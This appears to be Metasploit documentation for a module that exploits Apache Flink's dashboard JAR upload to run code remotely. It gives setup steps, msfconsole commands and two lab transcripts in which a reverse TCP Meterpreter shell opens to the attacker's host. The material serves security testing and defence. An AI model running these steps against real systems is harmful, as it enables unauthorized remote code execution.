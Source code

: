 ## Vulnerable Application

This module uses job functionality in [Apache Flink](https://flink.apache.org)
dashboard web interface to upload and execute a JAR file,
leading to remote execution of arbitrary Java code as the web server user.

This module has been tested successfully on Apache Flink versions:

* 1.9.3 on Ubuntu 18.04.4;
* 1.11.2 on Ubuntu 18.04.4;
* 1.9.3 on Windows 10; and
* 1.11.2 on Windows 10.

## Verification Steps

```sh
wget 'https://archive.apache.org/dist/flink/flink-1.11.2/flink-1.11.2-bin-scala_2.11.tgz'
tar zxvf flink-1.11.2-bin-scala_2.11.tgz
cd flink-1.11.2/
./bin/start-cluster.sh
```

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_flink_jar_upload_exec`
1. `set rhosts <rhost>`
1. `run`

## Scenarios

### Apache Flink version 1.9.3 on Ubuntu 18.04.4

```
msf6 > use exploit/multi/http/apache_flink_jar_upload_exec 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set rhosts 172.16.191.194
rhosts => 172.16.191.194
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > check
[*] 172.16.191.194:8081 - The target appears to be vulnerable. Apache Flink version 1.9.3.
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Apache Flink version 1.9.3.
[*] Uploading JAR payload 'bxAGPHOcppvL.jar' (5309 bytes) ...
[*] Retrieving list of avialable JAR files ...
[+] Found uploaded JAR file 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar'
[*] Executing JAR payload 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar' entry class 'metasploit.Payload' ...
[*] Sending stage (58147 bytes) to 172.16.191.194
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.194:38326) at 2021-02-18 07:19:58 -0500
[*] Removing JAR file 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar' ...

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer    : linux-18-04-04-amd64
OS          : Linux 5.3.0-40-generic (amd64)
Meterpreter : java/linux
meterpreter > 
```

### Apache Flink version 1.11.2 on Windows 10

```
msf6 > use exploit/multi/http/apache_flink_jar_upload_exec 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set rhosts 172.16.191.193
rhosts => 172.16.191.193
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > check
[*] 172.16.191.193:8081 - The target appears to be vulnerable. Apache Flink version 1.11.2.
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Apache Flink version 1.11.2.
[*] Uploading JAR payload 'JhnJgOxev.jar' (5309 bytes) ...
[*] Retrieving list of avialable JAR files ...
[+] Found uploaded JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar'
[*] Executing JAR payload '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar' entry class 'metasploit.Payload' ...
[*] Sending stage (58147 bytes) to 172.16.191.193
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.193:51105) at 2021-02-18 07:18:02 -0500
[*] Removing JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar' ...
[!] Cleanup failed. Could not remove JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar'

meterpreter > getuid
Server username: User
meterpreter > sysinfo
Computer    : WinDev1710Eval
OS          : Windows 10 10.0 (amd64)
Meterpreter : java/windows
meterpreter > 
```

